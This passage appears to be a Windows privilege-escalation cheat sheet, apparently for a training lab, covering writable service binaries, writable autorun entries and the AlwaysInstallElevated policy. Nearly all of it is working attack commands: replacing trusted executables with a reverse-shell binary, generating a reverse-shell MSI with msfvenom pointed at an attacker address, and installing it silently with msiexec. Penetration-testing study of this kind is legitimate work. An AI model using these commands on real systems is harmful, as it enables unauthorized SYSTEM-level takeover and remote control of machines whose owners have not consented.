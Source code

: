 check if service is running as system:

```
sc qc filepermsvc
```

then check if the BINARY_PATH_NAME is writeable:

```
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermsservice.exe"
```

if it is, you can replace filepermsservice.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

### autoruns

---

query registry for Autoruns:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

check if they are writable:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

replace program.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

### always install elevated

---

##### kali

check if keys are set to 0x1:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

kali: generate a reverse shell with .msi file format:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

transfer to windows, run this cmd:

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
